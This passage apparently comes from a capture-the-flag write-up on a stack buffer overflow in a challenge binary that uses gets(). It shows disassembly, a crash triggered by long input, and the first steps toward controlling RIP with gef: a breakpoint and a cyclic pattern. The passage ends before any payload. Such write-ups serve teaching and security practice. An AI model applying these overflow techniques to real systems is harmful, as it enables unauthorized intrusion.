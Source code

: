 ```bash
  4011c4:        48 01 d0                 add    rax,rdx
  4011c7:        c6 00 00                 mov    BYTE PTR [rax],0x0
  4011ca:        8b 45 fc                 mov    eax,DWORD PTR [rbp-0x4]
  4011cd:        c9                       leave
  4011ce:        c3                       ret
```

The challenge binary's logic is straightforward: it takes user input and then prints it back. The buffer length is not properly controlled, leading to a stack-based buffer overflow.

```bash
root@30ee3317d43a:/host# ./vuln
AAAAAAAA
AAAAAAAA
root@30ee3317d43a:/host# ./vuln
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

### Taking control of RIP

I set a breakpoint at `*main+88` and then created an 80-byte pattern.

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004011cf <+0>:     endbr64
   0x00000000004011d3 <+4>:     push   rbp
   0x00000000004011d4 <+5>:     mov    rbp,rsp
   0x00000000004011d7 <+8>:     sub    rsp,0x20
   0x00000000004011db <+12>:    mov    rax,QWORD PTR [rip+0x2e36]        # 0x404018 <stdout@GLIBC_2.2.5>
   0x00000000004011e2 <+19>:    mov    esi,0x0
   0x00000000004011e7 <+24>:    mov    rdi,rax
   0x00000000004011ea <+27>:    call   0x401060 <setbuf@plt>
   0x00000000004011ef <+32>:    lea    rax,[rbp-0x20]
   0x00000000004011f3 <+36>:    mov    edx,0x20
   0x00000000004011f8 <+41>:    mov    esi,0x0
   0x00000000004011fd <+46>:    mov    rdi,rax
   0x0000000000401200 <+49>:    call   0x401070 <memset@plt>
   0x0000000000401205 <+54>:    lea    rax,[rbp-0x20]
   0x0000000000401209 <+58>:    mov    rdi,rax
   0x000000000040120c <+61>:    call   0x401183 <gets>
   0x0000000000401211 <+66>:    mov    rdx,QWORD PTR [rip+0x2df8]        # 0x404010 <print>
   0x0000000000401218 <+73>:    lea    rax,[rbp-0x20]
   0x000000000040121c <+77>:    mov    rdi,rax
   0x000000000040121f <+80>:    call   rdx
   0x0000000000401221 <+82>:    mov    eax,0x0
   0x0000000000401226 <+87>:    leave
=> 0x0000000000401227 <+88>:    ret
End of assembler dump.
gef➤  pattern create 80
[+] Generating a pattern of 80 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaa
[+] Saved as '$_gef1'
gef➤  

```
